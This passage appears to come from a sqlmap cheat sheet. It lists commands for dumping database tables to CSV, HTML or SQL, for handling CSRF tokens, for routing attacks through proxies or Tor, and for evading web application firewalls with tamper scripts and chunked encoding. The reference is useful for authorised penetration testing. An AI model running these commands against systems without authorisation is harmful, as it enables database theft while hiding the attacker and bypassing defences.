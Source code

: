 ### Output Formatting
```bash
# Dump data in CSV format
sqlmap -r request.txt -D database -T table --dump-format=CSV

# Dump data in HTML format
sqlmap -r request.txt -D database -T table --dump-format=HTML

# Dump data in SQL format
sqlmap -r request.txt -D database -T table --dump-format=SQL
```

## Security & Anonymity

### CSRF and Session Management
```bash
# Handle CSRF tokens
sqlmap -r request.txt --csrf-token="csrf_token"

# Randomize parameter values
sqlmap -r request.txt --randomize="session_id"

# Evaluate Python expressions in payloads
sqlmap -r request.txt --eval="import hashlib; hash=hashlib.md5(id).hexdigest()"
```

### Proxy and Anonymity
```bash
# Route through single proxy
sqlmap -r request.txt --proxy="http://127.0.0.1:8080"

# Use multiple proxies from file
sqlmap -r request.txt --proxy-file="proxies.txt"

# Route through Tor network
sqlmap -r request.txt --tor

# Check Tor connection
sqlmap -r request.txt --check-tor
```

### WAF Evasion Advanced
```bash
# Skip WAF detection
sqlmap -r request.txt --skip-waf

# Use random User-Agent
sqlmap -r request.txt --random-agent

# Multiple tamper scripts
sqlmap -r request.txt --tamper="space2comment,randomcase,charencode"

# HTTP Parameter Pollution/Chunked encoding
sqlmap -r request.txt --chunked
```